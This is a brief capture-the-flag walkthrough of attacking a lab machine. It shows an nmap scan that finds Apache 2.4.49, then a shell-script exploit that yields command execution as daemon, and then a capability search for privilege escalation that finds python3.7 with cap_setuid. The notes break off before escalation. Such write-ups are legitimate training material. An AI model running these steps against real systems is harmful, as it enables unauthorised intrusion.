 Recon
```
sudo nmap -sV -Pn -p- -T 4 '10.10.134.28'
[sudo] password for gomez22: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 19:06 PDT
Nmap scan report for 10.10.134.28
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 273.33 seconds
```


Enumeration
-> total bust

Initial Access
-> shell script for vulnerable apache version
```
└─$ ./*.sh target.txt /bin/sh whoami
10.10.134.28
daemon
```

Pivoting (maybe)
Privesc (privelege escalation)


```
daemon@4a70924bafa0:/tmp$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
```

getcap -r / 2>/dev/null
